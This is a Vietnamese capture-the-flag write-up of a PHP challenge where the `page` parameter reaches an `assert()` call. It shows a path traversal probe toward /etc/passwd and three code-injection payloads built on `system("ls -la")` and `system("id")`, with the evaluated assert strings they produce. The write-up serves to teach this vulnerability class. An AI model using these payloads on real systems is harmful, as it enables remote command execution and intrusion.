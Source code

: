 # Write-up for PHP - assert()

- Truy cập vào trang web và truy cập vào trang home => mỗi page được xử lí với param `?page=` khi xử lí từng page.
![alt text](image.png)

- Với param này, chúng ta có thể đoán rằng đoạn code sẽ có các hàm xử lí file như `include`, `require`, ...
- Thử path traversal với `../../../../../../etc/passwd` => có 1 thông báo lỗi hiện ra: `assert(): Assertion .... strpos('include..')===false` => ta có thể đoán được đoạn code có thể như sau
![alt text](image-1.png)

- Đoạn code giả định của server. Nó sẽ lấy tham số `page` của param page trên URL => dùng hàm include để gọi các page vào để hiện thị. Sau đó dùng hàm `stropos` để kiểm tra xem có kí tự `..` trong đoạn code không. Nếu có thì hàm assert sẽ xử lí sang điều kiện else là `die...` 
- Hàm assert trong PHP la ham xu li dieu kien. Cach hoat dong cua ham assert nhu sau: 
- `assert(condition, description);`
- Vi du: 

  ```php
  assert(2 + 2 == 4); // Không có lỗi, điều kiện đúng
  assert(2 + 2 == 5, "Toán học có vấn đề!"); // Gây lỗi với thông báo "Toán học có vấn đề!"
  ```php

- Hàm assert trong PHP là hàm xử lý điều kiện. Cách hoạt động của hàm assert như sau:

- `assert(condition, description);`

- Ví dụ:

  ```php
  assert(2 + 2 == 4); // Không có lỗi, điều kiện đúng
  assert(2 + 2 == 5, "Toán học có vấn đề!"); // Gây lỗi với thông báo "Toán học có vấn đề!"
  ```

- Hàm assert thường được dùng để debug.
![alt text](image-2.png)

- Tìm hiểu và research về lỗ hổng liên quan đến hàm `assert` trong PHP => tim duoc 1 payload: 
  
  ```php
  ','1') or system("ls -la");//
  ```

- Khi payload vao, doan ma se tro thanh: 
  
  ```php
  $file = "include/ ','1') or system(\"ls -la\");// ".php"";
  assert("strpos('include/ ','1') or system(\"ls -la\");//.php",'..') ==false");
  ```
  
=> doan ma `system("ls -la")` se duoc thuc thi vi ham `strpos` se la sai vi 1 khong xuat hien trong chuoi include => ham `system` se duoc thuc thi.
![alt text](image-3.png)

![alt text](image-4.png)

- Cach payload thu 2: (HackTricks)
  `' and die(system("id")) or '`
=> chuoi truyen vao la: 

```php
$file = "includes/' and die(system(\"id\")) or '.php";
assert("strpos('includes/' and die(system(\"id\")) or '.php', '..') === false");
```

```
    1, Đầu tiên: strpos('includes/' and die(system("id")) or '.php', '..') === false được xử lý.
    2, Giải thích từng phần:
    - strpos('includes/' and die(system("id")) or '.php', '..')

    - Phần này sẽ thực hiện phép and.
    - strpos('includes/' and die(system("id")) or '.php', '..') sẽ kiểm tra:
      - 'includes/' (true) kết hợp với die(system("id")).
      - die(system("id")) được thực thi vì strpos cần đánh giá toàn bộ biểu thức.
    - Khi die(system("id")) được thực thi, lệnh system("id") gọi hệ thống và hiển thị kết quả lệnh id.
    - or '.php'
      - Do die() chấm dứt quá trình xử lý tại chỗ, phần còn lại or '.php' không được thực thi.
  
```

- Cach payload thu 3: (Tu nghi)
  `1','1')===false or system("ls -la");//`


